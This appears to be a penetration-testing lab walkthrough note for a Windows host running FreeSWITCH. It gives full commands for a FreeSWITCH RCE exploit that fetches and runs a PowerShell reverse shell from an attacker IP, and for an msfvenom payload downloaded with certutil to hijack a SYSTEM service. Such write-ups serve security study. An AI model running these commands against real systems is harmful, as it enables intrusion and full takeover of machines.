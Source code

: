 # Take Away
# Exploitation
- `nmap` will identify the target is hosting `freeSWITCH` on port 8021 and `searchsploit` will identify a potential `RCE` which we confirmed by issuing `whoami` command.![[Pasted image 20240217132617.png]]![[Pasted image 20240217132906.png]]
- Set up `netcat` listener and run `python3 47799.py 192.168.226.151 "powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.229/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.229 443"` to catch a reverse shell.![[Pasted image 20240217134228.png]]
# PrivEsc
- `winpeas` will identify a service `kiteService` with possible `dll hijacking` and `unquoted path`.![[Pasted image 20240217140413.png]]
	- Running `Get-CimInstance win32_service | Select Name,StartName,PathName,State | Where-Object {$_.Name -like 'kiteService'}` will identify the service is running under the `system` account which make it a prime target.![[Pasted image 20240217140554.png]]
- Generate malicious payload with `msfvenom -p windows/powershell_reverse_tcp lhost=192.168.45.229 lport=443 -f exe -o KiteService.exe`.
- Navigate to `C:\Program Files\Kite` and replace `KiteService.exe` with malicious payload by running `certutil -urlcache -f http://192.168.45.229/KiteService.exe KiteService.exe` and restart the service with `Restart-Service -Name KiteService` to catch a reverse shell under system privileges.![[Pasted image 20240217143740.png]]